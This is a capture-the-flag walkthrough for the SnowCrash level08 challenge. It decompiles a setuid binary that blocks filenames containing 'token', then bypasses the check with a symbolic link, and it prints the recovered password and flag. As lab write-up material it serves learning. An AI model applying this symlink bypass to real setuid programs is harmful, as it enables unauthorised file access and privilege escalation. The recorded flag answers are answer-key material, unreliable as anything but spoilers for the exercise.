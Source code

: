 # Level08

## Walkthrough

Listing the files in the directory, we find a binary file `level08` with a `token` text file.

```bash
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ file level08 
level08: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```

As in the previous levels, the `level08` file has the setuid flag and is owned by `flag08`.  
We import the executable on our host machine with SCP.

```bash
host:~$ scp -P 4242 level08@localhost:level08 level08
```

And let's decompile the executable with dogbolt.

[Link to the decompiled output](https://dogbolt.org/?id=dd39ba2e-06a7-4e59-b781-7ddd00932474#Hex-Rays=121)

By checking the main function, we can figure out that the program:
- accepts arguments
- compares the first argument with the word "token" and exits if they match
- opens the file associated with the first argument, reads it and write the output on stdout

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+24h] [ebp-40Ch]
  size_t v5; // [esp+28h] [ebp-408h]
  char buf[1024]; // [esp+2Ch] [ebp-404h] BYREF
  unsigned int v7; // [esp+42Ch] [ebp-4h]

  v7 = __readgsdword(0x14u);
  if ( argc == 1 )
  {
    printf("%s [file to read]\n", *argv);
    exit(1);
  }
  if ( strstr(argv[1], "token") )
  {
    printf("You may not access '%s'\n", argv[1]);
    exit(1);
  }
  v4 = open(argv[1], 0);
  if ( v4 == -1 )
    err(1, "Unable to open %s", argv[1]);
  v5 = read(v4, buf, 0x400u);
  if ( v5 == -1 )
    err(1, "Unable to read fd %d", v4);
  return write(1, buf, v5);
}
```

Our first attempt to solve this level is to override the `strstr()` function, using `LD_PRELOAD`, in order to always return `false` and not exit early.  
But it appears that `LD_PRELOAD` can't be used with the setuid flag.

Let's try another solution, this time using symbolic links to bypass the condition because `strstr()` doesn't follow the symbolic link.

```bash
level08@SnowCrash:~$ mkdir /tmp/level08
level08@SnowCrash:~$ cd /tmp/level08
level08@SnowCrash:/tmp/level08$ ln -s ~/token symlink
level08@SnowCrash:/tmp/level08$ ls -la
total 0
drwxrwxr-x 2 level08 level08  60 Feb 10 16:31 .
d-wx-wx-wx 5 root    root    100 Feb 10 16:31 ..
lrwxrwxrwx 1 level08 level08  24 Feb 10 16:31 symlink -> /home/user/level08/token
level08@SnowCrash:/tmp/level08$ ~/level08 symlink 
quif5eloekouj29ke0vouxean
level08@SnowCrash:/tmp/level08$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Resources

- [What is LD_PRELOAD trick](https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick)
- [LD_PRELOAD with setuid binary](https://stackoverflow.com/questions/9232892/ld-preload-with-setuid-binary)
